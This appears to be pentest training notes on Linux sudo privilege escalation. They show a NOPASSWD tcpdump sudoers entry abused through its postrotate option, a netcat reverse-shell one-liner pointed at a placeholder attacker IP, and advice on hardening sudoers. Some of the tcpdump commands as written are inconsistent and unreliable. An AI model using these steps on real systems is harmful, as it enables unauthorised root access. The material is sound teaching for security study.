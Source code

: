 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)

## Table of Contents


Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`. 

When landing on a system always check to see if the current user has any sudo privileges with `sudo -l`. Sometimes we will need to throw the user's passwords to list their rights, but any rights entries with `NOPASSWD` option can be seen without entering a password


It is easy to misconfigure this, for example, a user may be granted root-level permissions without requiring a password, or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting in privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump`, per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/bin/tcpdump` an attacker could leverage this to take advantage of the `postrotate-command` option
```bash
man tcpdump
<SNIP>
-z postrotate-comand
```
`-z`: an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:
```bash
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -x /tmp/.test -Z root
```
To try this out, add the file `/tmp/.test` with the reverse shell one-liner to bused during execution
```bash
cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MACHINE.IP 443 >/tmp/f
```
Next, start a netcat listener on our attack box. Then run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we should receive a root reverse shell connection
```bash
sudo /usr/bin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 /tmp/.test -Z root
```
We will receive a root shell instantly.
[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:
1. Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused).|
2. Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.|














